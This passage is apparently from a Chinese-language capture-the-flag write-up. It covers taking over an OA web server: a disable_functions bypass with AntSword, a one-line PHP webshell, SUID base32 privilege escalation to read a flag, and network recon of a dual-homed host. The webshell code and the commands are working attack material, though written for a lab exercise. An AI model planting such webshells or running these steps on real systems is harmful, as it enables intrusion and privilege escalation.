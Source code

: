 ![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/3514ce0cba555215.png)

使用蚁剑中的 disable_functions bypass 插件，并修改 `.antproxy.php` 文件内容。

> 注：使用 post 请求会导致请求出错，需要写一个 get 类型的 webshell `<?php system($_GET['cmd']);?>`，再修改 `.antproxy.php` 文件内容指向这个 get 类型的 webshell 文件。

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/c73135b708906fa8.png)

最终获取可以正常执行命令的 shell：

```console
www-data@ubuntu-oa:/var/www/html/OAsystem/upload$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

查询 suid 配置。

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/f97c9cdf2b142c49.png)

利用 suid 配置，使用 [base32](https://gtfobins.github.io/gtfobins/base32/#suid) 提权，读取 flag02：

```console
root@kali-server:~# curl 'http://172.28.23.26/upload/.antproxy.php?cmd=base32%20/flag02.txt%20|%20base32%20--decode'
flag02: flag{56d37734-5f73-447f-b1a5-a83f45549b28}
```

### 双网卡主机

```console
www-data@ubuntu-oa:/var/www/html/OAsystem/upload$ ifconfig
eth0      Link encap:Ethernet  HWaddr 00:16:3e:04:c2:c8
          inet addr:172.28.23.26  Bcast:172.28.255.255  Mask:255.255.0.0
          inet6 addr: fe80::216:3eff:fe04:c2c8/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:128019 errors:0 dropped:0 overruns:0 frame:0
          TX packets:55701 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:99666251 (99.6 MB)  TX bytes:61715672 (61.7 MB)

eth1      Link encap:Ethernet  HWaddr 00:16:3e:03:7e:3a
          inet addr:172.22.14.6  Bcast:172.22.255.255  Mask:255.255.0.0
          inet6 addr: fe80::216:3eff:fe03:7e3a/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:4887 errors:0 dropped:0 overruns:0 frame:0
          TX packets:4893 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:206350 (206.3 KB)  TX bytes:206418 (206.4 KB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:657 errors:0 dropped:0 overruns:0 frame:0
          TX packets:657 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:59084 (59.0 KB)  TX bytes:59084 (59.0 KB)
```
